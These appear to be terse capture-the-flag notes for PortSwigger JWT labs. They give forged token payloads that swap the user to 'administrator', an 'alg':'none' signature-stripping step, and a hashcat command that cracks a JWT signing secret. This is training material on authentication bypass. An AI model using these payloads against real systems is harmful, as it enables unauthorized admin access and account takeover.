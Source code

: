 # JWT


### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```



```

hashcat -a 0 -m 16500 eyJraWQiOiIzOWY3NjFjZS0yMjAyLTQ2NTQtYTQ1OS0xY2U4ZGQ2ZDg3N2UiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MDk2NzYzNiwic3ViIjoid2llbmVyIn0.WSkgfT0RVI3UG8tkeGtHwZotjxNXfCl9gIlqFaNjthM ./jwt.secrets.list  : secret1


encode in base64 secret1 : c2VjcmV0MQ==

```